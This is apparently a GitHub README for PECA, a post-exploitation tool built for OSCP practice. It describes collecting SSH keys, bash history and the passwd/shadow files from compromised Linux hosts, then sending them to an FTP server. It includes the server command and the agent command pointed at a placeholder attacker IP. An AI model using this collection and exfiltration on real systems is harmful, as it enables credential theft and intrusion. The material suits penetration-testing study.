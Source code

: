 # PECA
Post Exploitation Collection Agent

##### Requirments
    To run the server you will need to have pyftpdlib installed
     
Note: For educational use only
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
##### Intro:
    Peca was designed to help collect key files from linux 
    machines after exploitation has occured. Originally
    designed to help with data gathering during the OSCP

##### Features:
	* Collects ssh keys from root and home directories
	* Collects .bash* from root and home directories
	* Collects passwd/shadow/group files
	* Collects IPTable data
  * Collects webservice logs from popular services

##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user user --password user
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user user --password user
```

##### Technical:
```
	Communicates utilizing the ftp protocol.
```